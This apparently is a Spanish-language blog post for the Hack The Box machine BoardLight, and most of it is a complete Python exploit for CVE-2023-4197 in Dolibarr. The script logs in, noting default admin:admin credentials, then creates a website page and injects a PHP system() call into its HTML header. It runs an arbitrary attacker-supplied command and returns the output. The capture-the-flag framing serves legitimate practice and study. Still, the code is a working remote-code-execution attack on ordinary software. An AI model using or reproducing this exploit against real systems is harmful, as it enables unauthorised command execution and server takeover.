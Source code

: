 ```yaml
---

title: BoardLightHTB 
date: 2024-05-26 07:03 +0800
categories: [Scripts]
tags: [Scripts, HTB]
pin: true
image:
  path: /assets/img/commons/BoardLightHTB/bannerBoardLightHTB.png
  width: 66
  height: 40
  alt: BoardLightHTB
---
```


Script para ejecutar un `RCE HTML` en la máquina BoardLight de hackthebox en el software **Dolibarr**.

Esta vulnerabilidad se acontece en la ruta `/website/index.php`, el script puede generar una nueva web y páginas con un usuario autentificado. Después se puede injectar código en la **cabecera HTML** mediante solicitudes **POST**. 
Para ejecutar el código se accede a la web creada en la ruta `/public/website/index.php`


- Referencias:
    - [CVE-2023-4197](https://starlabs.sg/advisories/23/23-4197/) 


<figure style="text-align: center;">
  <img src="/assets/img/commons/BoardLightHTB/BoardLightHTB.png" alt="VMnet_lab">
  <figcaption style="font-style: italic; font-size: smaller;"></figcaption>
</figure>

-----------------------------------------------------------------------------------------------

```python
#!/usr/bin/env python3
import os
import re
import requests
import sys
import uuid
requests.packages.urllib3.disable_warnings()
s = requests.Session()
def check_args():
    global target, username, password, cmd
    print("\nCVE-2023-4197 -> Dolibarr 17.0.0 Command injection BoardLight.HTB")
    print("\tCredenciales por defecto -> admin:admin\n")
    if len(sys.argv) != 5:
        print("[!] Uso: python3 {} http://IP User Pass CommandRCE".format(sys.argv[0]))
        sys.exit(1)
    target = sys.argv[1].strip("/")
    username = sys.argv[2]
    password = sys.argv[3]
    cmd = sys.argv[4]
def authenticate():
    global s, csrf_token
    res = s.get(f"{target}/", verify=False)
    csrf_token = re.search("\"anti-csrf-newtoken\" content=\"(.+)\"", res.text).group(1).strip()
    data = {
        "token": csrf_token,
        "username": username,
        "password": password,
        "actionlogin": "login"
    }
    res = s.post(f"{target}/", data=data, verify=False)
    if "Logout" not in res.text:
        print("[!] Error de autenticación")
        sys.exit(1)
    else:
        print("[+] Autenticación con éxito!")
def rce():
    website_name = uuid.uuid4().hex
    data = {
        "WEBSITE_REF": website_name,
        "token": csrf_token,
        "action": "addsite",
        "WEBSITE_LANG": "en",
        "addcontainer": "create"
    }
    res = s.post(f"{target}/website/index.php", data=data, verify=False)
    if f"Website - {website_name}" not in res.text:
        print("[!] Error al crear WEB")
        sys.exit(1)
    else:
        print(f"[+] Web creada con éxito: \"{website_name}\"!")
    webpage_name = uuid.uuid4().hex
    data = {
        "website": website_name,
        "token": csrf_token,
        "action": "addcontainer",
        "WEBSITE_TYPE_CONTAINER": "page",
        "WEBSITE_TITLE": "x",
        "WEBSITE_PAGENAME": webpage_name
    }
    res = s.post(f"{target}/website/index.php", data=data, verify=False)
    if f"Contenair \\'{webpage_name}\\' added" not in res.text:
        print("[!] Error al crear pagina web")
        sys.exit(1)
    else:
        print(f"[+] Pagina web creada: \"{webpage_name}\"!")
    webpage_id = re.search(f"<option value=\"(.+)\" .+{webpage_name}", res.text).group(1).strip()
    data = {
        "website": website_name,
        "WEBSITE_PAGENAME": webpage_name,
        "pageid": webpage_id,
        "token": csrf_token,
        "action": "updatemeta",
        "htmlheader": f"<?PHP echo system('{cmd}');?>",
        "htmlbody": f"<section id=\"mysection1\" contenteditable=\"true\">{cmd}</section>"
    }
    res = s.post(f"{target}/website/index.php", data=data, verify=False)
    if "Saved" not in res.text:
        print("[!] Error al modificar la pagina WEB")
        sys.exit(1)
    else:
        print("[+] Pagina WEB modificada!")
    print(f"\n[+] RCE: {target}/public/website/index.php?website={website_name}&pageref={webpage_name}\n")
    res = s.get(f"{target}/public/website/index.php?website={website_name}&pageref={webpage_name}", verify=False)
    if res.status_code != 200:
        print("[!] Web sin aceso!")
        sys.exit(1)
    else:
        output = re.findall("block -->\n(.+?)</head>", res.text, re.MULTILINE | re.DOTALL)[0].strip()
        print(f"\nRCE -> {output}")
def main():
    check_args()
    authenticate()
    rce()
if __name__ == "__main__":
    main()
```
